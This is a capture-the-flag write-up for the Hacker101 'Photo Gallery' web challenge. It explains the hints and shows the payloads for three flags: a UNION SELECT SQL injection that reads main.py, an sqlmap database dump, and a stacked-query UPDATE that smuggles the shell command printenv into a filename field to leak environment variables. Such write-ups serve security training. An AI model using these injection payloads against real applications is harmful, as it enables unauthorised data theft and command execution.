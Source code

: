 # Photo Gallery

- Platform: Hacker101 <br>
- Category: Web  <br>
- Difficulty: Medium  <br>

## Flag0 
Hints:
- Consider how you might build this system yourself. What would the query for fetch look like?
- Take a few minutes to consider the state of the union
- This application runs on the uwsgi-nginx-flask-docker image

Inspected the code and noticed the ```fetch``` endpoint.
<img width="700" height="390" alt="image" src="https://github.com/user-attachments/assets/7c7c9fe6-56d1-4343-be88-48c8fade7951" /> <br><br>

Because the second hint mentioned ```union```, a SQL injection was indicated. For this website, the only way to perform this attack would be through the URL. The third hint referenced ```uwsgi-nginx-flask-docker```; since ```Flask``` commonly runs from ```main.py```, ```main.py``` was identified as the primary attack target.
<br>
```d1ae6902fc23e9b5dbf9e2b75d730fcb.ctf.hacker101.com/fetch?id=4 UNION SELECT 'main.py'``` <br><br>
<img width="1917" height="762" alt="image" src="https://github.com/user-attachments/assets/9d13568d-ffdc-4136-bbf4-48efbc5fa625" />  <br><br>


## Flag1 
Hints:
- I never trust a kitten I can't see
- Or a query whose results I can't see, for that matter

The hint 'query' pointed to a SQL injection vulnerability. The previous location where  ```Flag0``` was placed revealed a database named ```level5```, ```sqlmap``` was then used to enumerate that database: <br>
```sqlmap -u https://d1ae6902fc23e9b5dbf9e2b75d730fcb.ctf.hacker101.com/fetch?id=1 --dump -D level5 --threads=5``` <br><br>
<img width="938" height="283" alt="image" src="https://github.com/user-attachments/assets/52e35e44-cf5c-4599-8b85-ba0a96c56971" /> <br><br>

The flag was revealed after enumeration. <br><br>
<img width="760" height="282" alt="image" src="https://github.com/user-attachments/assets/5972a0a7-9667-4b22-98c8-7e43cae025c1" /> <br><br>


## Flag2 
Hints:
- That method of finding the size of an album seems suspicious
- Stacked queries rarely work. But when they do, make absolutely sure that you're committed
- Be aware of your environment


The hint “size of an album seems suspicious” suggests that the app is using a database query to get album information, and the possible injection point is the ```id``` parameter in the ```fetch``` URL. <br>
The stacked queries hint suggests the database might allow multiple SQL statements in one request using ;, so it may be possible to read/write the database using ```UPDATE```.  <br>
The hint “be aware of your environment” points toward environment variables on the system, which might contain the flag - meaning the goal is not just to change data, but to retrieve something the system already has stored (for example, ```printenv``` output). <br>
 <br>
```https://93c30d16b8c432c6def101bb0adf0570.ctf.hacker101.com/fetch?id=3; UPDATE photos SET filename=";echo $(printenv)" WHERE id=3; commit;``` <br><br>
<img width="1918" height="812" alt="image" src="https://github.com/user-attachments/assets/6c01c179-1a3a-473f-8d81-5ef4e9b9ee08" />



